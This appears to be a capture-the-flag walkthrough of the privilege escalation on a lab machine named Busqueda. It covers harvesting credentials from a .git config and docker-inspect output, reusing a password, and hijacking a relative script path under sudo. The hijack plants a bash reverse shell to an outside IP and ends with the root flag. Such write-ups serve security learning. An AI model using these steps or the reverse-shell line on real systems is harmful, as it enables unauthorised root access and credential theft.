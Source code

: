 1) Inside this directory `/var/www/app/.git` I find  the credentials a user:
```
$ cd /var/www/app/.git
$ ls -all
total 52
drwxr-xr-x 8 www-data www-data 4096 Apr 24 19:32 .
drwxr-xr-x 4 www-data www-data 4096 Apr  3 14:32 ..
drwxr-xr-x 2 www-data www-data 4096 Dec  1 14:35 branches
-rw-r--r-- 1 www-data www-data   15 Dec  1 14:35 COMMIT_EDITMSG
-rw-r--r-- 1 www-data www-data  294 Dec  1 14:35 config
-rw-r--r-- 1 www-data www-data   73 Dec  1 14:35 description
-rw-r--r-- 1 www-data www-data   21 Dec  1 14:35 HEAD
drwxr-xr-x 2 www-data www-data 4096 Dec  1 14:35 hooks
-rw-r--r-- 1 root     root      259 Apr  3 15:09 index
drwxr-xr-x 2 www-data www-data 4096 Dec  1 14:35 info
drwxr-xr-x 3 www-data www-data 4096 Dec  1 14:35 logs
drwxr-xr-x 9 www-data www-data 4096 Dec  1 14:35 objects
drwxr-xr-x 5 www-data www-data 4096 Dec  1 14:35 refs
$ cat config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main
$ 
```
```
- Username => svc
- Password => jh1usoih2bkjaspwe92

```

2) I check the permissions:
```
-bash-5.1$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

3) We can't read the file but we can see some of the parameters:
```
-bash-5.1$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

4) If we remember, we had found a rather interesting port before so we bring it to our machine:
```
┌──(kali㉿kali)-[~]
└─$ ssh -L 3000:127.0.0.1:3000 svc@searcher.htb
```

5) Thanks to the script we can make a request to the database and reuse it for the administrator user:
```
-bash-5.1$  sudo python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' mysql_db
[sudo] password for svc: 
```
```JSON
--format={"Hostname":"f84a6b33fb5a","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"3306/tcp":{},"33060/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF","MYSQL_USER=gitea","MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh","MYSQL_DATABASE=gitea","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","GOSU_VERSION=1.14","MYSQL_MAJOR=8.0","MYSQL_VERSION=8.0.31-1.el8","MYSQL_SHELL_VERSION=8.0.31-1.el8"],"Cmd":["mysqld"],"Image":"mysql:8","Volumes":{"/var/lib/mysql":{}},"WorkingDir":"","Entrypoint":["docker-entrypoint.sh"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"1b3f25a702c351e42b82c1867f5761829ada67262ed4ab55276e50538c54792b","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"db","com.docker.compose.version":"1.29.2"}}

```

6) I login in this site `http://gitea.searcher.htb/` with this credentials:
```
- Username => administrator
- Password => yuiu1hoiu4i5ho1uh
```

7) In the repository `administrator/scripts`  we have several files, one of which `system-checkup.py` we can run as root. The file contains the following:
```sh
#!/bin/bash

import subprocess
import sys

actions = ['full-checkup', 'docker-ps','docker-inspect']

def run_command(arg_list):
   r = subprocess.run(arg_list, capture_output=True)
   if r.stderr:
      output = r.stderr.decode()
   else:
      output = r.stdout.decode()
   return output

def process_action(action):
  if action == 'docker-inspect':
    try:
       _format = sys.argv[2]
       if len(_format) == 0:
          print(f"Format can't be empty")
          exit(1)
          
       container = sys.argv[3]
       arg_list = ['docker', 'inspect', '--format', _format, container]
       print(run_command(arg_list))
       
    except IndexError:
       print(f"Usage: {sys.argv[0]} docker-inspect <format> <container_name>")
       exit(1)

    except Exception as e:
       print('Something went wrong')
       exit(1)

  elif action == 'docker-ps':
    try:
       arg_list = ['docker', 'ps']
       print(run_command(arg_list))

    except:
       print('Something went wrong')
       exit(1)

  elif action == 'full-checkup':
    try:
       arg_list = ['./full-checkup.sh']
       print(run_command(arg_list))
       print('[+] Done!')

    except:
       print('Something went wrong')
       exit(1)

if __name__ == '__main__':
    try:
       action = sys.argv[1]
       if action in actions:
          process_action(action)
       else:
          raise IndexError

   except IndexError:
       print(f'Usage: {sys.argv[0]} <action> (arg1) (arg2)')
       print('')
       print(' docker-ps : List running docker containers')
       print(' docker-inspect : Inpect a certain docker container')
       print(' full-checkup : Run a full system checkup')
       print('')
       exit(1)
```

8) From what we can see in the script, if we create a file with the name of full-checkup.sh it will execute it, since it will first search if it exists in the path where we are
```
-bash-5.1$ cd /tmp
-bash-5.1$ nano  full-checkup.sh
svc@busqueda:/tmp$ cat full-checkup.sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.206/1234 0>&1
-bash-5.1$ chmod +x full-checkup.sh
```

9) I spawn the reverse shell:
- Target Machine:
```
svc@busqueda:/tmp$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

- Local Machine:
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.206] from (UNKNOWN) [10.10.11.208] 38258
root@busqueda:/tmp# whoami
whoami
root
root@busqueda:/tmp# cat /root/root.txt
cat /root/root.txt
e69219026feb03c4bed5b92e7c17b217

```